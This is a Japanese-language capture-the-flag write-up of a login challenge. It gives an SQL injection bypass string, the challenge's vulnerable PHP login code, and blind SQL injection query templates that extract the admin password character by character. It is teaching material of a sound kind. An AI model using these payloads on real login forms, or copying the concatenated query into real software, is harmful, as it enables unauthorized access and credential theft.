

#  Login 120pt

### 問題
```text
http://ctfq.sweetduet.info:10080/~q6/
```
- トップページ



### 解説
- 最初に `admin` でログインした方が良さそうなので、IDにはadminを入れる、Passには `SQLInjection` を仕掛けてみる。

- Passに `1' or '1' = '1';--` を入れると次のような画面が現れる。

```html
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:

<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

- このhtmlからわかるように、flagはさっきのフォームのPassっぽい。
- また、idがadminなので、以下の箇所が脆弱性と推測される。

```php
$r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
```

- まず、パスワードの長さを確認し、ブルートフォースを仕掛ける方針で進める。

- Passは以下のsqlをpostするようなsolve.pyのSolveクラスのget_pass_lengthメソッドを使う。

```sql
admin' AND (SELECT LENGTH(pass) FROM user WHERE id='admin') = (任意の文字数); --
```

- Passの長さがわかったので、想定される文字列に対してブルートフォースをかけるsolve.pyのSolveクラスのget_passメソッドを使う。。

```sql
admin' AND SUBSTR((SELECT pass FROM user WHERE id='admin'), 開始位置, 終了位置) = 'FLAG'; --
```

- 一定の時間放置しておくとflagが出現する。

- 今回の攻撃名は `ブラインド SQL Injection` と言う。これは、`挿入したSQLに対する応答ページの違いから情報を盗み出す攻撃`である。

- Exploit コードが自分の中ではキレイに書けて嬉しい。

### 参考
- [SQLインジェクションについて](https://qiita.com/ccccan/items/8712771799cf4bb7c868)

- [SQL 文字列抽出関数 SUBSTR](https://www.sasukepg.jp/sql/177/)

- [Python 文字列定数](https://docs.python.org/ja/3/library/string.html#string.ascii_lowercase)

- [深刻な「ブラインドSQLインジェクション」の脅威](https://www.atmarkit.co.jp/ait/articles/1402/04/news002_2.html)
